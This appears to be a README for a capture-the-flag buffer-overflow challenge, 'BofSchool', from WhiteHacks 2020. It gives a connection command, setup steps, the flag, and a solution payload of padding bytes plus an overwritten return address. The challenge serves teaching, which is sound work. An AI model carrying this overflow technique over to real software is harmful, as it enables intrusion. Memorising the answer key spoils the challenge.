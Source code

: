 # BofSchool

Interactive ncurses buffer overflow program.

# Learning Objective

Provides a soft introduction to the concept of overwriting `rip` through a buffer overflow, without having participants struggle with learning debugging skills.

# Description (public)

```
Welcome to Pwn101.
`stty -icanon -echo ; nc whitehacks.ctf.sg 12001; stty sane`

Controls:
`q`          - Quit the program
`<Backspce>` - Delete character
`<Enter>     - Send payload
Use `\xXX` to send hex encoded characters (useful for unprintable characters), e.g. "\x44\x41\x42" is equivalent to "DAB"
```

# Setup Guide

1. Use the docker-compose.yml in the parent directory to deploy the service at port 11001
2. Test the service with `stty` and netcat with the provided command, and type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x66\x05\x40\x00\x00\x00\x00\x00` to get the flag

# Flag

`WH2020{A_for_pwning!}`

# Solution

Connect to the service and type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x66\x05\x40\x00\x00\x00\x00\x00`, flag should be shown on screen within a few seconds.
